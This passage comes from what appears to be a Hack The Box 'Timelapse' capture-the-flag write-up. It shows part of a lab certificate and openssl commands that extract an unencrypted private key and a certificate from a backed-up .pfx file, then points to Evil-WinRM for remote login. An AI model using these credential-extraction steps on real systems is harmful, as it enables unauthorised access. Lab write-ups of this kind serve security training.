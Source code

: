 ```bash
yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----

```

To Extract Private Certificate `-nocerts` & `-nodes`

Run the following command to extract the private key

```bash
openssl pkcs12 -in winrm_backup/legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

Run the following command to extract the certificate

```bash
openssl pkcs12 -in winrm_backup/legacyy_dev_auth.pfx -nokeys -out key.cert
```

Now we have both certificate and the private key

```bash
┌──(root㉿pain)-[/htb/timelapse]
└─# ls key.cert key.pem 
       key.cert        key.pem 
```

Good article 

[A Detailed Guide on Evil-Winrm](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/)

![image.png](/assets/Images//HTB_Timelapse/image%203.png)
